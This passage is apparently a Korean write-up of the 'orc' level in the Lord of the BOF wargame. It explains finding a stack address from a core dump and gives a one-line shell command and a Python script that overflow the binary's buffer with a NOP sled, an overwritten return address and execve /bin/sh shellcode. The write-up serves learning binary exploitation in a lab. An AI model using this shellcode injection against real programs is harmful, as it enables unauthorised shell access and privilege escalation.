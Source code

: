 정확한 스택 주소를 얻기 위해 core를 떨궈준다.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/04.orc/06.png" width="900px">{:.rounded.shadow}

"S"가 들어간 위치가 쉘코드 24byte를 넣을 자리이다.

<br>

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/04.orc/07.png" width="850px">{:.rounded.shadow}

NOP 주소 중 적당한 0xbffffa60 주소를 RET에 넣으면 될 것 같다.

<br>

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/04.orc/08.png" width="850px">{:.rounded.shadow}



```shell
[goblin@localhost goblin]$ ./orc `python -c 'print "A"*44+"\x60\xfa\xff\xbf"+"\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```

-----

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/goblin/orc"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
shellcode_addr = 0xbffffa60 

payload = "\x90"*44
payload = append(p32(shellcode_addr))
payload = append("\x90"*50)
payload = append(shellcode)

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

-----

